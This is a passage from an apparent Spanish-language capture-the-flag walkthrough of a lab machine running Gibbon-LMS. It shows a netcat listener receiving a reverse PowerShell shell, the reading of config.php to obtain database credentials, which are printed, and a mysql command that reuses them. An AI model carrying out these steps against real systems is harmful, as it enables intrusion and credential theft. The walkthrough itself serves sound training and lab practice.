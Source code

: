 Y ya en el momento de haber levantado el `netcat` realiza la petición y verás que tienes tu sesión interactiva de powershell:


```bash
❯ nc -nlvp 11601
Listening on 0.0.0.0 11601
Connection received on 10.10.11.60 54750

PS C:\xampp\htdocs\Gibbon-LMS> dir


    Directory: C:\xampp\htdocs\Gibbon-LMS


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         1/20/2023   6:04 AM                i18n
d-----         1/20/2023   6:04 AM                installer
d-----         1/20/2023   6:04 AM                lib
d-----         1/20/2023   6:04 AM                modules
d-----         1/20/2023   6:04 AM                resources
<SNIP>
-a----        10/11/2024   8:15 PM           1307 config.php
```

En los directorios que muestra; nota el `config.php`, siempre revisa este tipo de archivos ya que pueden contener credenciales:

```php
PS C:\xampp\htdocs\Gibbon-LMS> type config.php

<SNIP>
/**
 * Sets the database connection information.
 * You can supply an optional $databasePort if your server requires one.
 */
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
<SNIP>
```

Dicho y hecho, tenemos credenciales para la base de datos; ahora, sólo tenemos que ubicarla; Por lo general, la encontrarás en `C:\xampp\mysql`; esto para utilizar el ejecutable y poder ejecutar comandos para escarbar más credenciales:

![UTMP]({{ "/images/TheFrizz/dir.png" | relative_url }})

Ya con el ejecutable, nos podemos conectar a mysql; ahora, recuerda lo que dije de la sesión interactiva, no funciona como una shell totalmente, por lo que no nos permitirá tener una sesión interactiva en mysql; pero sí que hay una forma de hacer consultas:

```powershell
PS C:\xampp\mysql\bin> .\mysql.exe -uMrGibbonsDB -p'MisterGibbs!Parrot!?1' gibbon -e '';
```
